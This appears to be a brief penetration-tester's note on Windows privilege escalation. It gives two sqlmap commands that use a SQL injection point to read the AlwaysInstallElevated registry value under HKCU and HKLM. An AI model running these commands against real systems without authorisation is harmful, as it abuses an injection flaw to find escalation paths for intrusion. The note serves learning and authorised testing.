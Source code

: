 # Windows

Search Tag: #sqlmap #enumeration-and-discovery #privilege-escalation

## Conditions

TODO: For schedule task

- Enumerate [[Tactics && Techniques && Procedures (TTPs) Phases/Post Exploitation/Shell Is The Beginning/Privilege Escalation/Windows/Host Privilege Escalation/Registry/AlwaysInstallElevated/01 - Manual|AlwaysInstallElevated]] for privilege escalation.

```
$ sqlmap -u "<URL>" --reg-read="HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer" --reg-value="AlwaysInstallElevated"

$ sqlmap -u "<URL>" --reg-read="HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer" --reg-value="AlwaysInstallElevated"
```